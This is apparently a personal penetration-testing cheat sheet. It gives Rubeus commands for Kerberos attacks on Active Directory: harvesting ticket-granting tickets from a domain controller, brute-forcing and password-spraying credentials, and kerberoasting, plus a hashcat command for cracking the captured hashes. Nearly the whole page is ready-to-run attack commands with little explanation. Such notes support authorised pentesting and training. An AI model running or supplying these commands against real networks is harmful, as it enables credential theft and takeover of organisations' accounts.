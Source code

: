 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### harvest
- Gathers TGT flowing from a KDC every x interval.
```powershell
.\Rubeus.exe harvest /interval:30
```
### brute
- Used to bruteforce or password spray kerberos credentials.
```powershell
# password spray
.\Rubeus.exe brute [OPTIONS] /noticket
# [OPTIONS]
/password:Passw0rd!
/passwords:password.txt
/username:Administrator
/usernames:username.txt
```
### kerberoast
- Perform kerberoasting attack
```powershell
.\Rubeus.exe kerberoast /nowrap

# Hash can be cracked with
hashcat -m 13100 hash.txt pass.txt
```